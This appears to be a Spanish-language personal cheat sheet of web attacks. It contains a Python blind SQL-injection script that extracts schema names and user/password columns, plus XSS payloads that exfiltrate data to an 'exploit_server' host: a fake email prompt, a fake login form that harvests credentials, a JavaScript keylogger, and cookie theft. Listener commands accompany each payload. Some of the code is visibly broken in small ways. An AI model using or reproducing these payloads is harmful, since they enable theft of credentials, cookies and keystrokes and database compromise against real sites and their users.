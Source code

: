 
----
## SQLI

> Todos los sqli manuales lo tendremos en la carpeta de [PuestaenProducción](Z:\Estudios\PuestaProduccion)
> El resto lo tendremos en **sqlmap** 😁

- **Hay veces que no hace falta aplicar** `'` **porque el programador ni siquiera obligó a ponerlas, por lo que simplemente haremos la siguiente consulta.**

https://ejepmlo.com/?user_id=1 order by 1

- Poner  un valor inexistente:

https://ejepmlo.com/?user_id=52676511 order by 1

>Automatizaremos esto con el siguiente script 

```python
#!/usr/bin/python3

import requests
import signal
import sys
import time
import string
from pwn import

def def_handler(sig, frame):
	print("\n\n[!] Saliendo ... \n")
	sys.exit(1)

# Ctrl+C
signal.signal(signal.SIGINT, def_handler)

# Variables globales
main_url = input("¿Cuál es la URL objetivo?: ")
parametro = input("¿Cuál es el parámetro? (Ejemplo: ?parametroExistente=ValorInexistente): ")
tabla = input("¿Cómo se llama la tabla que has encontrado?: ")
columna1 = input("¿Cómo se llama la columna de users que has encontrado?: ")
columna2 = input("¿Cómo se llama la columna de passwds que has encontrado?: ")
characters = string.printable

def makeSQLI():

	p1 = log.progress("Fuerza bruta" )
	p1.status("Iniciando proceso de fuerza bruta")
	
	time.sleep(2)
	
	p2 = log.progress("Datos extraídos")
	
	extracted_info = ""

	for position in range(1, 150): # caracteres a corregir si nos quedamos cortos 150
		for character in range(33, 126): # empezando desde el 33 hasta el 126
		sqli_url = f"{main_url}{parametro} or (select(select ascii(substring((select group_concat(schema_name) from information_schema.schemata),%d,1)) from {tabla} where id = 1=%d)" % (position, character)"
		#esta es la query que s ehacía an tes --> sqli_url = main_url + "?id=9 or (select(select ascii(substring((select group_concat(schema_name) from information_schema.schemata),%d,1)) from users where id = 1)=%d)" % (position, character)
	
	# Ponerle la siguiente consulta si quiro saber los usersy passwds: f"{main_url}{parametro} or (select(select ascii(substring((select group_concat({columna1}, 0x3a ,{columna2}) from {tabla}),%d,1)) from {tabla} where id = 1=%d)" % (position, character)"
	
	# Ponerle la siguiente consulta si quiro saber los users: f"{main_url}{parametro} or (select(select ascii(substring((select group_concat({columna1}) from {tabla}),%d,1)) from {tabla} where id = 1=%d)" % (position, character)
	
	# Ponerle la siguiente consulta si quiro saber las passwds: f"{main_url}{parametro} or (select(select ascii(substring((select group_concat({columna2}) from {tabla}),%d,1)) from {tabla} where id = 1=%d)" % (position, character)

		p1.status(sqli_url)
		
		r = requests.get(sqli_url)
		
		if r.status_code == 200:
			extracted_info += chr(character)
			p2.status(extracted_info)
			break

if __name__ == '__main__':

	makeSQLI( )
```


## XSS

> Inyección JS para secuestrar el correo

- Código a inyectar

```javascript
<script>
	var email = prompt("Por favor, introduce tu correo electrónico para visualizar el post", "example@example.com");
	
	if (email == null | | email == ""){
		alert("Es necesario introducir un correo válido para visualizar el post");
	} else {
		fetch( "http://exploit_server/?email=" + email);
</script>
```

- Para escuchar poner en la terminal
```python
python3 -m http.server 80
```

> Inyección JS para secuestrar el user y passwd

- Código a inyectar

```javascript
<div id="formContainer"></div>

<script>
	var email;
	var password;
	var form = '<form>' +
		'Email: <input type="email" id="email" required>' +
		' Contraseña: <input type="password" id="password" required>' +
		'<input type="button" onclick="submitForm()" value="Submit">' +
		'</form>';

}

document.getElementByld("formContainer").innerHTML = form;

	function submitForm() {
	email = document.getElementByld("email").value;
	password = document.getElementByld("password").value;
	fetch("http://exploit_server/?email="+ email + "&password=" + password);
}

</script>
```

- Para escuchar poner en la terminal
```python
python3 -m http.server 80
```


> Keylogger con JS

- Código a inyectar

```JS
<script>
	var k = "";
	document.onkeypress = function(e){
		e = e || window. event;
		k += e.key;
		var i = new Image();
		i.src = "http://exploit_server/" + k;
	};
</script>
```

- Para escuchar poner en la terminal
```python
	python3 -m http.server 80 2>&1 | grep -oP 'GET /\K[^.*\s]+'
```

>Secuestrar la cookie dough sin que la víctima vea el alert

- Archivo a inyectar en entrada de texto vulnerABLE
```JS
<script src="http://exploit_server:puerto/powned.js"></script>
```

```JS
var request = new XMLHttpRequest( );
request.open('GET', 'http://exploit_server/?cookie=' + document.cookie);
request.send( );
```

- Para escuchar poner en la terminal
```python
python3 -m http.server 80 
```



>Hacer que la víctima visite la página que quiero 

- Código a inyectar
```JS
<script src="http://exploit_server:puerto/powned.js"></script>
```

```JS
var request = new XMLHttpRequest( );
request.open('GET', 'http://valvonta.es/poraqui?parametro=active');
request.send( );
```

- Para escuchar poner en la terminal
```python
python3 -m http.server 80 